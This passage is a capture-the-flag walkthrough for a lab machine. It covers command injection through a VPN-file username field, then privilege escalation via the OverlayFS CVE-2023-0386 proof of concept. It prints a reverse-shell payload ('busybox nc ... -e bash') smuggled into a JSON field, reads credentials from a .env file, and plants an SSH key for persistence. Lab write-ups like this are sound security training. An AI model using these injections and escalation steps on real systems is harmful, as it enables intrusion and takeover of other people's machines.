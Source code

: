 It generates a VPN file by passing our username and if it generates with a bash command let's try to add a semicolon and then a revshell:

listener:
```bash
python3 -m pwncat -lp 6666
```
then:
```json
{
"username":"abc;busybox nc 10.10.14.95 6666 -e bash"
}
```
### User flag:

We're in before to enumerate we can looking around the __"/var/www/html"__ folder indeed in __".env"__ there are credentials to admin user, we can now retrieve the user flag in __"/home/admin"__.

> First I saw index.php in the source it called a DB connection and it takes the credentials from a $envVariables from a $envFIle called .env

### Privesc:

It's time to enumerate in order to privesc; after some times spent looking around we can read a mail in __"/var/mail/admin"__

> I made an error; I spent some time searching around, but if you log in with SSH, a message will appear indicating that the admin user has new mail

```
I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.
```

It talks about a kernel exploit called OverlayFS at this point it's time to use google.

We can find a good POC [here](https://github.com/xkaneiki/CVE-2023-0386)

> this [blog](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/) explain what is it and which version is affected
>> From blog you can retrieve the CVE number CVE-2023-0386 a quick search "CVE-2023-0386 poc" prompt the POC

we can escalate with the following commands:

```bash
upload /tmp/poc.zip /tmp/poc.zip #pwncat command 

unzip poc.zip

make all

./fuse ./ovlcap/lower ./gc
```
at this point we need another terminal to run the final command so we can interrupt the previous one and set an SSH access:
```bash
cd /home/admin

ssh-keygen -t rsa -b 2048 #enter all the data it requests
cd .ssh
cat id.rsa.pub > authorized_keys
```
then:
```bash
chmod 600 id_rsa
ssh -i id_rsa admin@10.10.11.221
```
> Here I found out the previous mail by log in via SSh